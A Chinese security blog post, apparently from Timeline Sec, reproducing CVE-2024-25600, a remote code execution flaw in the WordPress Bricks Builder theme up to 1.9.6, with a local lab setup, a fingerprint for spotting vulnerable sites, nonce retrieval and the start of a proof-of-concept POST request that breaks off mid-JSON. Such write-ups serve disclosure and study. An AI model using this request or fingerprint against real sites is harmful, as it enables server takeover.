 #  CVE-2024-25600：WordPress Bricks Builder RCE   
 白帽子   2024-11-16 16:14  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：良夜@Timeline Sec 本文字数：3434阅读时长：3～5mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Bricks Builder 是一个 WordPress 页面构建插件，它的主要功能是让用户可以通过直观的界面和拖放操作来创建自定义的网页布局。使用 Bricks Builder，用户可以轻松地设计和定制其网站的页面，而无需编写任何代码。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-25600**  
  
WordPress配置安装的Brick Builder主题存在远程代码漏洞。攻击者可通过/wp-json/bricks/v1/render_element 接口中直接提交代码即可在目标执行任意代码，进而控制目标服务器。  
## 0x03 影响版本  
  
Brick Builder <= 1.9.6  
## 0x04 环境搭建  
  
本地搭建如下：（比较简单不详细叙述了）  
  
下载Bricks Builder：  
  
参考 https://www.pythonthree.com/free-download-bricks-builder/  
  
下载WordPress下载地址：https://github.com/WordPress/WordPress/releases/tag/6.4.3  
  
安装一个phpstudy，并启动，将下载的wordpress解压到WWW目录下  
  
访问 http://localhost/WordPress-6.4.3/ 自动跳转到安装界面，设置数据库，在这注意要手动新建一个数据库。  
  
安装好后登录后台，上传主题并安装启用  
## 0x05 漏洞利用  
  
指纹特征：body中包含/wp-content/themes/bricks/  
  
首先需要得到 nonce，直接访问网站即可  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsjqibWS3OqfuqpicqVMkaZmEE15pGWdLJfws0eSFTzYOo7NwKJibJOT5ksT677uYNu0nrnVicFECoPTnQ/640?wx_fmt=png&from=appmsg "")  
  
然后就可以构造POC,执行代码了  
```
POST /WordPress-6.4.3/wp-json/bricks/v1/render_element HTTP/1.1
Host: localhost
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 295

{
"postId":"1",
"nonce":"69d17dbdfd",
"element":{
    "name":"container",
    "settings":{
        "hasLoop":"",
```
